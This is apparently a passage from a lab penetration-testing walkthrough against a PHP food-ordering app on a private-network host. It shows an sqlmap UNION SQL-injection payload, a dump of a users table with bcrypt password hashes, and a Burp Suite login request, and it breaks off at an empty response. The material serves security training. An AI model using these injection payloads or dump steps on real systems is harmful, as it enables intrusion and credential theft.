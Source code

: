 ```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=-8935 UNION ALL SELECT NULL,NULL,CONCAT(0x717a716a71,0x49597256545453557955456f627a547470514a714a7863454447667752675a6d43656a4459517579,0x716a706271),NULL,NULL,NULL,NULL-- -
---
[11:30:21] [INFO] testing MySQL
[11:30:21] [INFO] confirming MySQL
[11:30:21] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[11:30:21] [INFO] fetching columns for table 'users' in database 'fos'
[11:30:21] [INFO] fetching entries for table 'users' in database 'fos'
Database: fos
Table: users
[2 entries]
+----+---------------+--------+--------------------------------------------------------------+----------+
| id | name          | type   | password                                                     | username |
+----+---------------+--------+--------------------------------------------------------------+----------+
| 1  | Administrator | 1      | $2y$10$efDvenHYJ5Fu/xxt1ANbXuRx5/TuzNs/s4k6keUiiFvr2ueE0GmrG | hadmin   | ←
| 2  | Staff         | 2      | $2y$10$DJbGDnA6bkOiS0TW08R5FOPruw0wRW4maShgWK8k6FlEfgNjbXsvm | staff    | ←
+----+---------------+--------+--------------------------------------------------------------+----------+

[11:30:21] [INFO] table 'fos.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.56.127/dump/fos/users.csv'
[11:30:21] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2 times
[11:30:21] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.56.127'

[*] ending @ 11:30:21 /2024-09-26/
```

`burpsuite` > `http://192.168.56.127/admin/login.php`

`HTTP Request`:
```
POST /admin/ajax.php?action=login HTTP/1.1 ←
Host: 192.168.56.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 29
Origin: http://192.168.56.127
Connection: close
Referer: http://192.168.56.127/admin/login.php ←
Cookie: PHPSESSID=eda99enik0danli26lp0i78qut

username=hadmin&password=TEST ←
```
`HTTP Response`:
```
```